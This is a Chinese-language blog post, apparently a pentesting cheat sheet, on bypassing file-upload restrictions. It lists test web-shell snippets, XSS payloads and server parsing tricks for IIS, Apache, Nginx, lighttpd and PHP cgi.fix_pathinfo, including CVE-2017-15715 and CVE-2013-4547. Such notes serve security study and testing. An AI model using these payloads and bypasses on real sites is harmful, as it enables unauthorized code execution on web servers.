 ```yaml
---
layout: post
title: file-upload
date: 2018-07-30 
tag: file-upload
---
```

# 0x00 前言
---
&emsp;&emsp;对文件上传进行一个总结,如果你还没有看过[Upload-labs通关手册](https://xz.aliyun.com/t/2435)，建议先看，本文是对其的一个简单补充,另外本文不对跨域等进行总结，后续会陆续添加。

# 0x01 通用
## 1. shell
```
<% out.println("Hello test");%>     #jsp jspx 
<%response.write("hello test")%>        #asp asmx aspx ashx soap web.config
<?php echo 11111;?>     #php phtml phps  phpt php3 php3p php4 php5   #主要看配置  
有些管理员可能会把php和asp程序设置在一个大目录下(虚拟主机)
```
## 2. xss
```  
上传htm html shtml xml文件等
Basic XSS payload: <script>alert(1337)</script>
XML-based XSS payload: <a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(1337)</a:script>
"><img src=# onerror=alert(1)>.jpg   #文件上传输出文件名导致xss window也可以
```
## 3. 解析漏洞  
```
iis  
文件格式： asa cer cdx
目录解析： /1.asp/1.jpg  #上传1.jpg拿到shell
文件解析： 1.asp;.jpg 
IIS 7.0/IIS 7.5
1.jpg/.php  #上传1.jpg 在后面加上/.php直接当成php来执行

apache
1.php.aaa   #遇到不能解析的类型递归向前解析 默认类型一般是text/plain
1.php%0a    影响2.4.0~2.4.29 linux服务器#上传时1.php后面添加一个\x0A #CVE-2017-15715 https://www.leavesongs.com/PENETRATION/apache-cve-2017-15715-vulnerability.html 

nginx<8.03空字节代码执行漏洞 
1.jpg%00.php   #上传1.jpg然后web访问
1.jpg/.php  #上传1.jpg 在后面加上/.php直接当成php来执行
Nginx 0.8.41至1.4.3版本和1.5.7之前的1.5.x版本 CVE-2013-4547   #绕过访问限制读取s.html 
http://127.0.0.1/test /../protected/s.html  #注意test目录后有一个空格
# 解析漏洞需要test%20目录(window不需要) #使用curl测试 
1.jpg \0.php  #1.jpg[0x20][0x00].php    #使用burp更改编码

#IIS和Nginx一看到URL中文件后缀是.php就把它当成php来解析  
cgi.fix_pathinfo(php会对路径进行修理如/tt.php/111.jpg/111.jpg 1.jpg不存在会当成1.php处理) 

lighttpd
1.jpg/1.php

php cgi解析漏洞
配置文件中的选项cgi.fix_pathinfo = 1开启时 当访问http://www.xxx.com/x.txt/x.php x.php不存在 会把x.txt当成php来执行
```